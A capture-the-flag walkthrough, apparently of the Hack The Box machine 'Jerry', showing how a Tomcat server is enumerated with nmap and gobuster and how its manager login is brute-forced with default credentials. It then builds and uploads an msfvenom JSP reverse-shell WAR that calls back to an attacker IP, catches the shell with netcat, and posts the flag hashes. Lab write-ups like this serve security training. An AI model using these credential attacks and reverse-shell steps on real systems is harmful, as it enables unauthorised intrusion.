jerry

nmap
nmap -sC -sV -oA nmap/initial 10.10.10.95
we have an Apache Tomcat server running JSP 1.1 on port 8080
http

gobuster
running gobuster on our targetgobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbustser/directory-list-2.3-medium.txt

/docs
/examples
/shell don't lead to any important findings,
however /manager access could allow us remote code execution on this box
/manager

and capturing the authentication packet with burpsuite shows us the server uses basic authorization, which encodes both the username and password in base64

passwordspray Tomcat server
default passwordsdefault passwords base 64
Intruder
default passwords
lets search for default usernames and passwords on google and either copy or make our own list to try and bruteforce authentication to the tomcat server manager page


Tomcat server default password list:

default passwords b64
now that we have our username and password list, we

Intruder



intruder shows that the dG9tY2F0OnMzY3JldA== returns a status code server response 200 and response length of 19248 bytes, because it is an outlier to the rest of intruder's password attempts, it is safe to assume we have ourselves a successful login!

we can use burpsuite's built in base64 decoder on the string to reveal our username and password are
tomcat:s3cret
Note: Only use Intuder for small user/password payloads unless you have the professional edition of burp suite, it runs very slow in comparison to other freeware webapp bruteforcers such as hydra
initial foothold
using username tomcat password s3cret on the manager login form
logs us into the Tomcat Web Application Manager!



msfvenom .war reverse shell
on manager page after login there is an upload feature on the webserver that allows .war uploads
Note: make sure its a java/jsp_reverse_tcp payload for war files because tomcat servers are run .war files that run java payloads
we're going to use msfvenom to generate a reverse shell payload written in .war, find payloads to this and more here


msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.14.62 LPORT=9876 -o newshell.war

.war upload and run
clicking the newly generated shell2 link or navigating to its location in our browser will both execute our .war payload and send a reverse shell back to our machine!

nc -nlvp 9876

and we're system!
user/root

7004dbcef0f854e0fb401875f26ebd00
04a8b36e1545a455393d067e772fe90e
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/